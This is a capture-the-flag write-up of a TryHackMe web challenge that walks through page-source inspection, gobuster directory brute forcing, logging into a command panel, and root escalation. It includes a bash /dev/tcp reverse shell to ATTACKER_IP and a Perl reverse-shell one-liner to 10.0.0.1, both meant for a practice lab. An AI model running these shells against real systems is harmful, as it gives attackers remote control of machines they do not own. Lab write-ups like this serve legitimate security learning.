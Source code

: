 ![img](images/first.png)
<br>
This challenge is a web application challenge, which involves using tools in a web page, `netcat`, `gobuster`, reverse shell and more! <br> <br>
The first thing I did was to redirect to the page given to us in the challenge page. Simple type in `MACHINE_IP` (in my case `10.10.233.119`) in the URL bar. <br><br>
![img](images/home.png)
<br>
One simple tool to use when doing a capture the flag challenge involving a website, is to inspect its source page. This can be done by simply right clicking the page and clicking on `View Page Source`. <br><br>
![img](images/inspect.png)<br>
Above is the page source of the web page we were just on. Looking through the source, we see that there is an interesting comment at the bottom that says `Username: R1ckRul3s`, this may be the username we are looking for. <br><br>
We turn our attention to our terminal, and here we use a tool called `gobuster`, which is a tool to brute force URL directories for a website. Below is the command for this task.<br><br>
![img](images/gobuster.png) <br><br>
As we can see from the above image, there are a couple stand out directories such as `robot.txt` and `login.php`.<br><br>
Typing `robot.txt` in the URL bar gave the following.<br><br>
![img](images/robots.png) <br><br>
This may be the password that goes with the username we found in the previous steps. We now take a look at `login.php`. In the same way, we input `login.php` in the URL bar and we are met with a login page.<br><br>
![img](images/login.png) <br><br>
Inputting the username and the password we found previously, we have been redirected to the command panel on the website as shown below. <br><br>
![img](images/command.png) <br><br>
Here, we can use this like a standard command line interface. I started off by using the command `ls` to list what is in the current working directory. <br><br>
![img](images/list.png) <br><br>
Some of them are familiar, but there is one text file that looks interesting. I initially tried using the `cat` command which outputs the contents of the file. However, I was only met with the following page. <br><br>
![img](images/cat.png) <br><br>
Thus, I decided to use a technique called reverse shell. Simply put, a reverse shell is a type of remote access that allows the attacker to control a target machine by initiating a connection. It is called reverse shell
because, instead of the attacker connecting to the target machine, the target machine is connecting to the attacker, which bypasses tools like a firewall.<br><br>
A standard command for this would be `bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1`. Additionally, the port (in this case `443`) can be anything as long as it's open on the attacker's machine.<br><br>
![img](images/bash.png) <br><br>
Now that we have executed this code, we turn our attention back to the terminal and use a tool called `netcat`. This tool waits for an incoming connection on a specified port and its format is as follows: `nc -lnvp [port]`<br><br>
![img](images/ncat.png)<br><br>
We then use a `payload` to execute and obtain what we are looking for. Here is a [link](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) that shows a bunch of web socket payloads to use.<br>
For this, I used the Perl payload which is <br>
```bash
perl -e 'use Socket;$i="10.0.0.1";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`
```
Inputting this in the command panel on the website gives us the following on the terminal.<br><br>
![img](images/shell.png) <br><br>
I then used `cat` to output the contents of the file I initially tried earlier on the command panel, and we now have our first flag. In addition to this, outputting the contents of `clue.txt` gave us a short clue,
stating that we should look through other directories. <br><br>
![img](images/ing1.png) <br><br>
I then decided to look at the `/home` directory, and found another interesting directory. <br><br>
![img](images/cdhome.png) <br><br>
Taking a look at this directory, I found the second flag for the challenge. <br><br>
![img](images/ing2.png) <br><br>
Now to find the third and final flag. I looked through a bunch of directories without finding anything that stood out, however, what I noticed was that I couldn't access the root directory. <br>
I decided to use the command `sudo su` which should give me root access, and after using the command `id`, I realized that it worked as intended. <br>
From here, I simply listed the directories within `/root` and outputted the contents of `3rd.txt`. Below shows the final flag that I had acquired. <br><br>
![img](images/ing3.png) <br><br>

This was a super interesting and fun capture the flag that revolves around working my way through a web service and utilizing the reverse shell. <br><br>

From TryHackMe



